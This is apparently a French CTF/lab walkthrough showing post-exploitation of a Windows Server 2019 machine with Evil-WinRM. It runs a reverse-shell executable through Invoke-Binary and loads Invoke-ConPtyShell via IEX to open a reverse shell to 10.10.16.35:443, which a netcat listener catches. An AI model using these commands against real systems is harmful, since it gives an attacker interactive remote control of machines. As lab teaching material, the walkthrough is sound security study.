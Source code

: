 ```
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```
ici j'ai afficher le `menu`, avec le `Invoke-Binary`, je vais bien executer mon payload dans le systems
```
*Evil-WinRM* PS C:\Users\Raven\Documents> Invoke-Binary /home/bloman/CTFs/Boot2root/VMs/rev.exe
```

Pour afficher la version de l'ordinateur `Get-ComputerInfo`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> Get-ComputerInfo

WindowsBuildLabEx                                       : 17763.1.amd64fre.rs5_release.180914-1434
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerStandard
WindowsInstallationType                                 : Server
WindowsInstallDateFromRegistry                          : 7/20/2021 7:21:49 PM
WindowsProductId                                        : 00429-00521-62775-AA946
WindowsProductName                                      : Windows Server 2019 Standard
WindowsRegisteredOrganization                           :
WindowsRegisteredOwner                                  : Windows User
WindowsSystemRoot                                       : C:\Windows
WindowsVersion                                          : 1809
BiosCharacteristics                                     :
BiosBIOSVersion                                         :
BiosBuildNumber                                         :
```
**Shell**
NOTE: `ConPtyShell` uses the function CreatePseudoConsole(). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).
```

*Evil-WinRM* PS C:\Users\svc_backup\Downloads> IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -RemoteIp 10.10.16.35 -RemotePort 443 -Rows 38 -Cols 154

└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.236] 61457
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

```
